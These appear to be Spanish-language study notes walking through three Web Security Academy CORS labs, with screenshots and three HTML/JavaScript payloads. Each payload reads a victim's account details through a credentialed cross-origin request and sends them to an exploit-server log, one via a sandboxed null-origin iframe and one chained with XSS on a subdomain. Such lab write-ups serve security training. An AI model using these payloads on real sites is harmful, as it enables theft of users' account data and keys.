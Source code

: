 Es un mecanismo de seguridad que permite que recursos restringidos en una página web sean solicitados desde otro dominio fuera del dominio desde el cual se sirvió el recurso original. Este mecanismo es implementado por los navegadores para controlar qué recursos pueden ser accedidos por aplicaciones web que se ejecutan en diferentes orígenes

# Vulnerabilidad CORS con reflexión de origen básica

![[01.CORS_BASICO.png]]
![[02.CORS_BASICO.png]]
![[03.CORS_BASICO.png]]

```html
<!DOCTYPE html>

<html lang="en">

<body>

    <script>

        var request = new XMLHttpRequest();

        request.onload = reqListener;

        request.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);

        request.withCredentials = true;

        request.send();

        function reqListener() {

            location='/log?key='+this.responseText;

        };

    </script>

</body>

</html>
```
![[04.CORS_BASICO.png]]
![[05.CORS_BASICO.png]]

# Vulnerabilidad CORS con origen nulo confiable

![[01.CORS-NULL.png]]
![[02.CORS-NULL.png]]

```html
<!DOCTYPE html>

<html lang="en">

<body>

    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>

        var req = new XMLHttpRequest();

        req.onload = reqListener;

        req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);

        req.withCredentials = true;

        req.send();

        function reqListener() {

            location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);

        };

    </script>"></iframe>

</body>

</html>
```

![[03.CORS-NULL.png]]
![[04.CORS-NULL.png]]

# Vulnerabilidad de CORS con protocolos confiables e inseguros

![[01.CORS_ProtocoloConfiable.png]]
![[02.CORS_ProtocoloConfiable.png]]


```js
<script>
    document.location="http://stock.0acc00ec031fde5082f2bf4100a9002e.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0acc00ec031fde5082f2bf4100a9002e.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a7000c703e2decf82a9be0001a000dd.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

![[03.CORS_ProtocoloConfiable.png]]
![[04.CORS_ProtocoloConfiable.png]]
![[05.CORS_ProtocoloConfiable.png]]
![[06.CORS_ProtocoloConfiable.png]]
![[07.CORS_ProtocoloConfiable.png]]
